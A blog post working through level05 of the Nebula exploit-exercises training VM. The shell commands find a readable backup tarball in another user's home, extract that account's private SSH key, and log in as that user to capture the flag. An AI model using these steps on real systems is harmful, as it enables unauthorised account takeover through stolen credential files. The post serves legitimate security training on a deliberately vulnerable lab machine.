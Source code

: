 ```yaml
---
layout: post
title:  "Nebula Exploit Exercises {05..10}"
---
```


This post is a continuation of *Nebula Exploit Exercises {00..04}*,
feel free to check it out!  With that said, let's dive into
level05. For those of you who are playing along at home, don't forget
that the ISO used in the challenges / exercises (nebula) can be found
[here](https://exploit-exercises.com/download/)

# [level05](https://exploit-exercises.com/nebula/level05/)

> ## About
>
>Check the flag05 home directory. You are looking for weak directory permissions
>
>To do this level, log in as the level05 account with the password level05. Files for this level can be found in /home/flag05.

This is very straight forward, so I'll just provide the commands I
used to solve the challenge, along with some comments.

{% highlight sh %}
$ cd /home/flag05 && ls -Al
... # just a bunch of normal stuff like .bashrc, .profile
drwxr-xr-x 2 flag05 flag05   42 2011-11-20 20:13 .backup
drwx------ 1 flag05 flag05   40 2011-11-20 20:13 .ssh

$ # We lack read privileges on that .ssh, which if we had access to,
$ # we could login as flag05 to the local machine, provided sshd is running
$ ls -Al .backup
-rw-rw-r-- 1 flag05 flag05 1826 2011-11-20 20:13 backup-19072011.tgz
$ # backups are important! :)

$ mkdir /tmp/level05 && cd /tmp/level05
$ cp /home/flag05/.backup/backup-19072011.tgz .
$ gunzip backup-19072011.tgz && ls -Al
-rw-rw-r-- 1 level05 level05 10240 2015-04-07 18:28 backup-19072011.tar
$ # Hey bro I heard you like compressed data...
$ tar xf backup-19072011.tar && ls -Al
-rw-rw-r-- 1 level05 level05 10240 2015-04-07 18:28 backup-19072011.tar
drwxr-xr-x 2 level05 level05   100 2011-07-19 02:37 .ssh

$ cd .ssh && ls -Al
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 authorized_keys
-rw------- 1 level05 level05 1675 2011-07-19 02:37 id_rsa
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 id_rsa.pub

$ # Well we can simply connect with ssh to localhost and
$ # if we provide the proper identity-file, it should let us in, right?
$ ssh flag05@localhost -i ./id_rsa
flag05@nebula:~ $ # \o/
flag05@nebula:~ $ getflag
You have successfully executed getflag on a target account
{% endhighlight %}
